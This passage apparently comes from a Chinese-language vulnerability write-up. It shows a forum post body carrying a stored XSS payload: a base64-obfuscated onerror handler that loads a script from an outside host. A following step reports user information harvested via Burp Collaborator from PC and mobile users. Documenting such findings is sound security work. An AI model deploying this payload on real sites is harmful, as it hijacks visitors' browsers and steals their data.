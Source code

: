 
        {"coid":"","coids":[],"title":"鹅鸭杀有组队的吗？","content":"<div id=\"mobile_article_theme_warm\" class=\"content_markdown_body\"><p>如题<img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGNTkyYjUxNGQyYmRkNGJmMDhiZmI1YmRiNzQ1ZGY3Y2MnO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))></p></div>","device_name":"Web","watermark":true,"media":[],"publish_type":"post"}

7. 观察burp collaborator

    收集到PC端用户信息：
    ![info1](./images/info1.png)
    ![info2](./images/info2.png)
    收集到手机客户端用户信息：